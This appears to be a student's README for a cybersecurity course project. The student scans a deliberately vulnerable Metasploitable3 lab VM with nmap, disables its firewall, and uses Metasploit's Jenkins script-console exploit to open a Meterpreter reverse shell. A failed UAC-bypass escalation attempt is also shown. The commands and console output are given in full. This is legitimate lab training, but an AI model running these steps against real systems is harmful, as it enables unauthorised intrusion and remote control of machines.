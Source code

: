 # cybersecuritybase-project-2

This is my take on Cybersecurity base MOOC project 2.

## The setup

Project was carried out with os x computer with metasploittable VM initialized via Vagrant. I modified the Vagrantfile provided slightly by exposing VM directly with known ip to host.

```
  config.vm.network "private_network", ip: "55.55.55.5"
```

This gave me the opportunity to install metasploit to my host machine and tinker with metasploittable "from the outside" - just as in a real life scenario. I knew it had a glassfish application server instance listening port 4848 and yes, I was able to access https://55.55.55.5:4848/ from my host machine.

### Installing snort to metasploittable



### Installing metasploit framework

I installed metasploit framework with these instructions provided here https://null-byte.wonderhowto.com/how-to/mac-for-hackers-install-metasploit-framework-0174517/ and my goal is to learn how to use it from console, instead of provided web-ui. Installing metasploit seemed pretty easy and updating exploit registry can be simply done just by `msfupdate`.

## Initial port scan

First thing I learned is that metasploittable can be set to "easy" and "hard" and this effectively means disabling or enabling firewall. Firewall can be disabled easily by ssh'ing to machine `vagrant ssh` and running `netsh advfirewall set allprofiles state off`. I guess enlightened reader can figure out how to re-enable firewall again.

Next, I figured out how to run nmap from metasploit console.

**nmap with firewall enabled**
```
msf > db_nmap  55.55.55.5
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-16 16:24 EET
[*] Nmap: Nmap scan report for 55.55.55.5
[*] Nmap: Host is up (0.00083s latency).
[*] Nmap: Not shown: 991 filtered ports
[*] Nmap: PORT      STATE SERVICE
[*] Nmap: 21/tcp    open  ftp
[*] Nmap: 22/tcp    open  ssh
[*] Nmap: 80/tcp    open  http
[*] Nmap: 4848/tcp  open  appserv-http
[*] Nmap: 8022/tcp  open  oa-system
[*] Nmap: 8080/tcp  open  http-proxy
[*] Nmap: 9200/tcp  open  wap-wsp
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```

**nmap with firewall disabled**
```
msf > db_nmap  55.55.55.5
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-16 16:23 EET
[*] Nmap: Nmap scan report for 55.55.55.5
[*] Nmap: Host is up (0.0021s latency).
[*] Nmap: Not shown: 977 closed ports
[*] Nmap: PORT      STATE SERVICE
[*] Nmap: 21/tcp    open  ftp
[*] Nmap: 22/tcp    open  ssh
[*] Nmap: 80/tcp    open  http
[*] Nmap: 135/tcp   open  msrpc
[*] Nmap: 139/tcp   open  netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds
[*] Nmap: 3306/tcp  open  mysql
[*] Nmap: 3389/tcp  open  ms-wbt-server
[*] Nmap: 4848/tcp  open  appserv-http
[*] Nmap: 7676/tcp  open  imqbrokerd
[*] Nmap: 8009/tcp  open  ajp13
[*] Nmap: 8022/tcp  open  oa-system
[*] Nmap: 8031/tcp  open  unknown
[*] Nmap: 8080/tcp  open  http-proxy
[*] Nmap: 8181/tcp  open  unknown
[*] Nmap: 8443/tcp  open  https-alt
[*] Nmap: 9200/tcp  open  wap-wsp
[*] Nmap: 49152/tcp open  unknown
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: 49157/tcp open  unknown
[*] Nmap: 49158/tcp open  unknown
[*] Nmap: 49159/tcp open  unknown
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```
## First succesfull exploit

Here's brief instructions on how to use metasploit framework. At this time, snort was not installed, as I just wanted to first learn how to use metasploit.

```
fizzzzz: msfconsole 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.14.2-dev-437cba84b0563fb067757bb1ec03db9e01ed4579]
+ -- --=[ 1629 exploits - 929 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > 
```

1. Select exploit
```
msf > use exploit/multi/http/jenkins_script_console 
msf exploit(jenkins_script_console) > 
```
2. Investigate exploit parameters
```
msf exploit(jenkins_script_console) > info

....

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    no        The password for the specified username
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                       yes       The target address
  RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME                    no        The username to authenticate as
  VHOST                       no        HTTP server virtual host
...
```
3. Set exploit arguments
```
msf exploit(jenkins_script_console) > set RHOST 55.55.55.5
RHOST => 55.55.55.5
msf exploit(jenkins_script_console) > set RPORT 8484
RPORT => 8484
msf exploit(jenkins_script_console) > set TARGETURI /
TARGETURI => /
```
4. EXPLOIT!
```
msf exploit(jenkins_script_console) > exploit

[*] Started reverse TCP handler on 55.55.55.1:4444 
[*] Checking access to the script console
[*] No authentication required, skipping login...
[*] 55.55.55.5:8484 - Sending command stager...
[*] Command Stager progress -   2.06% done (2048/99626 bytes)
...
[*] Command Stager progress -  98.67% done (98304/99626 bytes)
[*] Sending stage (957487 bytes) to 55.55.55.5
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 1 opened (55.55.55.1:4444 -> 55.55.55.5:49602) at 2017-03-16 20:57:05 +0200

meterpreter > 
```

Meterpreter console is additional part of metasploit and it's intention is to be stealthy console in remote machine. In example meterpreter is opened to a remote machine (the metasploittable3 vm via 55.55.55.5:8484) and it's effectively a reverse shell. Comprehensive listing and additional info on meterpreter is available here: https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

Now, because jenkins is not run with priviledged used we can't do anything really awesome directly (at least nothing that I'm aware of...).

Next step of using metasploitable is exploits that need session such as we have opened. We can run exploit that needs open session (usually reverse shell?) like this:
```
msf > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > sessions

Active sessions
===============

  Id  Type                     Information                                   Connection
  --  ----                     -----------                                   ----------
  2   meterpreter x86/windows  NT AUTHORITY\LOCAL SERVICE @ METASPLOITABLE3  55.55.55.1:4444 -> 55.55.55.5:50400 (55.55.55.5)

msf exploit(bypassuac) > set SESSION 2
SESSION => 2
msf exploit(bypassuac) > exploit

[*] Started reverse TCP handler on 192.168.0.11:4444 
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

Eventhough omitted in msfconsole listing, one can query for `info` of exploit and it tells pretty clearly that one must set session to this exploit. It's just a parameter to exploit. This exploit did not work with jenkins sec hole because it needs more priviledged access.

Additional important commands include but are not limited to: `back` (unsets current exploit), `edit` (edits exploit's code, usable for checking out what exploit actually does).

